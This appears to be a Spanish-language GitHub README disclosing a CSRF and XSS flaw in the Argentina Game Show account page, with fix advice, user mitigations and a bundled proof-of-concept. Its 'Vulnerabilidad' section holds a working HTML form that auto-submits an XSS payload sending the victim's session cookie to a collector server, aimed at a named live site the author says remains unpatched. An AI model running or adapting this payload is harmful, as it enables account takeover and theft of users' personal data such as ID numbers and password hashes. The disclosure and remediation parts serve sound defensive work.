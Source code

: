 # AGS-CSRF-XSS POC

La pagina de la AGS es vulnerable a CSRF y XSS, haciendo que un atacante pueda conseguir acceso total a la cuenta de alguien convenciendolo de que abra un link malicioso. La info que puede conseguir es la siguiente: nombre completo, email, fecha de nacimiento, dni, entradas al evento y hash MD5 de la contraseña que se puede llegar a crackear.

Intenté reportarles el problema pero decidieron ignorarlo porque su "entendimiento básico de cyberseguridad es no abrir links randoms". Lo que es verdad pero no suficiente, es irrespondable de la parte de ellos dejar a sus usuarios expuestos, en mi opinion.

## Tabla de contenidos
- [Tabla de contenidos](#tabla-de-contenidos)
- [Vulnerabilidad](#vulnerabilidad)
- [Fix](#fix)
- [Mitigacion](#mitigacion)
- [POC](#poc)

## Vulnerabilidad
El form para cambiar la información del usuario (/mis-datos) no tiene protección contra CSRF, la cookie PHPSSESSID tiene el flag `SameSite` en `None` por lo que se agrega automaticamente al hacer el submit sin hacer ningun chequeo del origen.

Uno puede desde otra pagina web, hacer un form con los datos que quiere cambiar y hacer que se envíe solo, el usuario no se dará cuenta que está cambiando su información. Al hacer el cambio, el usuario es redirigido a una pagina donde se muestran los nuevos datos.

El servidor no sanitiza correctamente los datos que se le envian, y la forma en la los muestra es vulnerable a XSS, se puede inyectar codigo en cualquiera de los campos. (filtra algunos caracteres pero no de forma correcta)

Este es el codigo que se puede usar para explotarlo:

```html
<body>
    <form name="myForm" id="myForm" method="POST" style="display: none;" action="https://app.argentinagameshow.com/ajax/table_edit.php?notab=1&tid=22&ftid=&rid=&sdb=0&id=&tab=undefined">
        <!-- redirige a nuestro servidor con las cookies en la url -->
        <input type="text" name="22_98" value="<img src='' onerror=window.location.href=`http://localhost:8888/info?${document.cookie}`>">
        <input type="text" name="action" value="edit">
        <input type="submit" value="Submit">
    </form>

    <script>
        document.getElementById("myForm").submit();
    </script>
</body>
```

## Fix
Hay dos formas de solucionar este problema, la primera es agregar un token CSRF al form que esté linkeado con la sesion o el usuario, y verificar que el token sea correcto del lado del servidor antes de hacer el cambio. 

La segunda es agregar el flag `SameSite` a la cookie PHPSSESSID, y ponerlo en `Lax` o `Strict`, esto hará que el navegador no envie la cookie al servidor si el origen no es el mismo que el del servidor.

Este post de [Porswigger](https://portswigger.net/web-security/csrf/preventing) explica mas en detalle como solucionar problemas relaciondos a CSRF, que ventajas y desventajas tiene cada una de las soluciones.

## Mitigación
Mientras los de AGS no arreglen este problema, forma de mitigar este problema que tenemos por ahora es cerrar sesion en la pagina de la AGS y usar unicamente la APP de telefono. La app corre en un navegador propio y los demas navegadores no tienen acceso a sus cookies. **Y no hacer click en links que no sean de confianza.**

## POC
Este repo tiene incluido un POC, para correrlo tienen que tener instalado node y typescript. instalan las dependencias con `npm i` y lo ejecutan con `npm run dev`. Cuando entren a `http://localhost:8888` se va a redirigir un par de veces y les va a mostrar la info de su cuenta.
